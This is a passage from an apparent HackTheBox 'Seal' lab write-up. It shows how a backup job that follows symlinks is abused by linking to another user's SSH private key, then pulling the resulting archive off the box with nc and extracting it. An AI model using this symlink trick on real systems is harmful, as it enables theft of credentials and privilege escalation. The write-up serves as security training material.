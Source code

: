 We can see three tasks, one that copy files from ```src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard``` to  ```dest=/opt/backups/files``` **including** ```copy_links=yes```.

Another one creates an archive from the dest directory and the last one that cleanses the dest directory.

As we can see the copy running with ```copy_links=yes```, Meaning that we can create link to ```luis``` ssh private key (```/home/luis/.ssh/id_rsa``` ).

```console
pwd
/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
ln -s /home/luis/.ssh/id_rsa ss
ls -ltr
lrwxrwxrwx 1 tomcat tomcat 22 Aug 12 11:51 ss -> /home/luis/.ssh/id_rsa
```

Great, Now we need to wait to archive task that create for us ```gz``` file on ```/opt/backups/files/``` which is possible contains ```luis``` ssh private key on ```/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/ss```.

After few seconds we can see the following gzip file on ```/opt/backups/archives/```:
```console
pwd
/opt/backups/archives
ls
backup-2021-08-12-11:55:33.gz
```

Let's copy and extract the gzip file to our host using ```nc```:
```console
┌─[evyatar@parrot]─[/hackthebox/Seal/backup]
└──╼ $ ls
backup-2021-08-12-115533.gz
┌─[evyatar@parrot]─[/hackthebox/Seal/backup]
└──╼ $ gunzip backup-2021-08-12-115533.gz
┌─[evyatar@parrot]─[/hackthebox/Seal/backup]
└──╼ $ file backup-2021-08-12-115533
backup-2021-08-12-115533: POSIX tar archive
┌─[evyatar@parrot]─[/hackthebox/Seal/backup]
└──╼ $ tar xvf backup-2021-08-12-115533
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
tar: dashboard/uploads: time stamp 2021-08-12 15:03:34.4266555 is 163.30818263 s in the future
dashboard/index.html
dashboard/scripts/flot/
dashboard/scripts/datatables/
dashboard/scripts/jquery-ui-1.10.1.custom.min.js
dashboard/scripts/common.js
dashboard/scripts/jquery-1.9.1.min.js
dashboard/scripts/flot/jquery.flot.resize.js
dashboard/scripts/flot/jquery.flot.pie.js
dashboard/scripts/flot/jquery.flot.js
dashboard/scripts/datatables/jquery.dataTables.js
dashboard/images/jquery-ui/
dashboard/images/icons/
dashboard/images/img.jpg
dashboard/images/user.png
dashboard/images/bg.png
dashboard/images/jquery-ui/picker.png
dashboard/images/icons/css/
dashboard/images/icons/font/
dashboard/images/icons/css/font-awesome.css
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'